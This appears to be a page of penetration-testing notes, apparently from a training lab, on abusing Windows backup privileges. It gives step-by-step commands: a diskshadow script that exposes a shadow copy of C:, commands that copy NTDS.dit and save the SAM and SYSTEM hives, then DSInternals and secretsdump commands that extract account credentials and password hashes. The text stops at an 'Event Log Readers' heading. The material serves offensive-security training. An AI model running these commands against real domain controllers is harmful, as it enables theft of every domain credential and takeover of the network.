 ```
[shadowcopies according to microsoft](  https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow  )

```
    PS C:\> diskshadow.exe

    DISKSHADOW> set verbose on
    DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
    DISKSHADOW> set context clientaccessible //Specifies that the shadow copy is usable by client versions of Windows. This context is persistent by default.
    DISKSHADOW> set context persistent    // 	Specifies that the shadow copy persists across program exit, reset, or restart.
    DISKSHADOW> begin backup
    DISKSHADOW> add volume C: alias cdrive
    DISKSHADOW> create
    DISKSHADOW> expose %cdrive% E:
    DISKSHADOW> end backup
    DISKSHADOW> exit
```

#### Copying NTDS.dit Locally
```
    PS C:\> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
    
    
#### Backing up SAM and SYSTEM Registry Hives


```
C:\> reg save HKLM\SYSTEM SYSTEM.SAV

C:\> reg save HKLM\SAM SAM.SAV
```
    !It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it
#### Extracting Credentials from NTDS.dit

```
PS C:\> Import-Module .\DSInternals.psd1

PS C:\> $key = Get-BootKey -SystemHivePath .\SYSTEM

PS C:\> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```


#### Extracting Hashes Using SecretsDump
```
    $ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```


#### Robocopy

The built-in utility robocopy can be used to copy files in backup mode as well. Robocopy is a command-line directory replication tool. 

`C:\> robocopy /B E:\Windows\NTDS .\ntds ntds.dit`






### Event Log Readers
```